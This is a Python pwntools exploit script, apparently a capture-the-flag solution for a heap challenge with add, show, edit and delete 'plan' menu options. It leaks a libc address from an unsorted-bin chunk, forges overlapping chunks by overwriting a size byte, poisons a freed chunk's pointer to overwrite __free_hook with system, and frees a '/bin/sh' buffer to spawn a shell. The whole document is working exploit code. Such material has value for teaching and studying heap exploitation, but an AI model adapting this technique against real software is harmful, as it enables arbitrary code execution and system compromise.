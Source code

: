 ```python
    p.recvuntil(b'Plan')
    p.recvuntil(b': ')
    return p.recvline()[:-1]
    
def edit_plan(index, data):
    p.sendlineafter(b'>',b'3')
    p.sendlineafter(b'>', str(index).encode())
    p.sendafter(b'>', data)
    
def delete_plan(index):
    p.sendlineafter(b'>',b'4')
    p.sendlineafter(b'>', str(index).encode())
    
    
for i in range(10):
    add_plan(0x80, b'A'*0x80)
for i in range(9):
    delete_plan(i)

for i in range(8):
    add_plan(0x80, b'\x20')
    
unsort_leak = show_plan(7)
unsort_leak = unpack(unsort_leak.ljust(8, b'\x00'))
print("unsort_leak: ", hex(unsort_leak))
libc.address = unsort_leak - (0x3ebc40 + 0xe0)
print("libc: ", hex(libc.address))
print("__free_hook: ", hex(libc.symbols['__free_hook']))
add_plan(0x80, b'A')

# overlap
add_plan(0x28, b'a'*0x28) #10
add_plan(0x28, b'b'*0x28) #11
add_plan(0x28, b'c'*0x28) #12

edit_plan(10, b"\x20"*0x28 + b"\x71")
delete_plan(11)
delete_plan(12)
add_plan(0x68, b'd'*0x68) #11

payload = b"B"*0x20
payload += b"\x00"*0x8
payload += pack(0x31) # plan 12 size
payload += pack(libc.sym['__free_hook']) # q12 fd

# gdb.attach(p, gdbscript=gdb_script)    
# time.sleep(1)

edit_plan(11, payload)
add_plan(0x28, b"/bin/sh\x00") # 12
add_plan(0x28, pack(libc.sym['system'])) # 13 __free_hook
delete_plan(12)

p.interactive()
```
